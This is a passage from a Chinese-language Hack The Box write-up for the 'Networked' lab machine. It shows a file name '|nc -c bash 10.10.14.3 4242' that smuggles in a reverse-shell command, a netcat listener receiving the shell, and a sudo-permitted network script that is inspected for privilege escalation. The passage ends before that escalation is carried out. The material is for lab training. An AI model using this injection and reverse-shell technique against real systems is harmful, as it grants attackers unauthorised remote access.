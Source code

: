 ls
10_10_14_3.jpg      127_0_0_1.png  127_0_0_3.png  index.html
10_10_14_3.php.jpg  127_0_0_2.png  127_0_0_4.png  |nc -c bash 10.10.14.3 4242

```

收到反弹shell，成功提权到```guly```

```
┌──(root💀kali)-[~/htb/Networked]
└─# nc -lnvp 4242                                                                                               1 ⨯
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 49588
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
whoami
guly

```

# 提权
切换tty，查看sudo特权
```
sh-4.2$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

可以以root身份执行一个sh文件，查看该文件
```
sh-4.2$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
